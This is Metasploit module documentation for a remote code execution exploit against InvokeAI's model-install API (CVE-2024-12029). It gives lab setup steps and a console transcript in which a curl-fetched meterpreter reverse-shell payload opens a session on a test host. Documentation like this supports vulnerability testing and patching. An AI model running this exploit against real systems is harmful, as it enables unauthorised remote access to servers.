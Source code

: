 ## Vulnerable Application

InvokeAI has a critical vulnerability leading to remote code execution
in the /api/v2/models/install API through unsafe model deserialization.
The API allows users to specify a model URL, which is downloaded and loaded server-side using torch.load without proper validation.
This functionality allows attackers to embed malicious code in model files that execute upon loading.

The vulnerability affects:

    * 4.0.0 <= InvokeAI <= 5.4.2

This module was successfully tested on:

    * InvokeAI 5.3.1 installed Ubuntu 22.04


### Installation

Follow the [official instructions](https://invoke-ai.github.io/InvokeAI/installation/manual/#walkthrough)

1. Install uv:

`curl -LsSf https://astral.sh/uv/install.sh | sh`

2. Create a directory for your installation:

```bash
mkdir ~/invokeai
cd ~/invokeai
```

3. Create a virtual environment in that directory:

`uv venv --relocatable --prompt invoke --python 3.11 --python-preference only-managed .venv`

4. Activate the virtual environment:

`source .venv/bin/activate`

5. Install the invokeai package:

```bash
uv pip install invokeai==5.3.1 --python 3.11 --python-preference only-managed --index=https://download.pytorch.org/whl/cpu --force-reinstall
```

6. Deactivate and reactivate your venv so that the invokeai-specific commands become available in the environment:

`deactivate && source .venv/bin/activate`

7. Edit ~/invokeai/invoke.yaml:

```yaml
  # Internal metadata - do not edit:
  schema_version: 4.0.2
  
  # Put user settings here - see https://invoke-ai.github.io/InvokeAI/features/CONFIGURATION/:
  host: 0.0.0.0 # serve the app on your local network
```

8. Run the application, specifying the directory you created earlier as the root directory:

`invokeai-web --root ~/invokeai`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/invokeai_rce_cve_2024_12029`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/invokeai_rce_cve_2024_12029
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/invokeai_rce_cve_2024_12029) > options

Module options (exploit/linux/http/invokeai_rce_cve_2024_12029):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    9090             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      CdRqUbPlDQJ      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.0.12     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/invokeai_rce_cve_2024_12029) > run lhost=192.168.56.1 rhost=192.168.56.17
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 5.3.1 detected.
[*] Using URL: http://192.168.56.1:8081/Z8KmlibT
[*] Server started.
[*] Sending stage (3045380 bytes) to 192.168.56.17
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:48294) at 2025-02-16 15:24:41 +0900
[*] Server stopped.

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           : Ubuntu 22.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
